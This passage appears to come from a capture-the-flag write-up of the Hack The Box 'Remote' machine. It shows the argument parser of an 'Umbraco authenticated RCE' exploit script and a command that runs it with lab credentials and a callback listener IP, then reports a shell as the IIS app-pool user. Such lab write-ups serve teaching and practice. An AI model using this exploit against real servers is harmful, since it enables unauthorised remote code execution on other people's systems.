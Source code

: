 ```python
    parser = argparse.ArgumentParser(prog='exploit.py',
        description='Umbraco authenticated RCE',
        formatter_class=lambda prog: argparse.HelpFormatter(prog, max_help_position=80))
    parser.add_argument('-u', '--user', metavar='USER', type=str,
        required=True, dest='user', help='Username / Email')
    parser.add_argument('-p', '--password', metavar='PASS', type=str,
        required=True, dest='password', help='Login password')
    parser.add_argument('-w', '--website-url', metavar='URL', type=str, required=True,
        dest='host', help='Root URL')
    parser.add_argument('-i', '--ip', metavar='IP', type=str, required=True,
        dest='ip', help='IP address of callback listener')
    args = parser.parse_args()
    main()
            
```

Running the `exploit`.  

```bash
python3 exploit.py -u admin@htb.local -p baconandcheese -i 10.10.16.8 -w http://$ip
```

We get a response.   

<br/> 
<img src="/img/remote_screenshots/Pasted image 20241109191522.png" alt="1" style="width:700px; height:auto;">
<br/>

We are connected as `iis apppool\defaultapppool`.    
We can see on the  `C:\Users\Public\Desktop` directory a file called `TeamViewer 7.lnk`     

<br/> 
<img src="/img/remote_screenshots/Pasted image 20241109191854.png" alt="1" style="width:700px; height:auto;">
<br/>

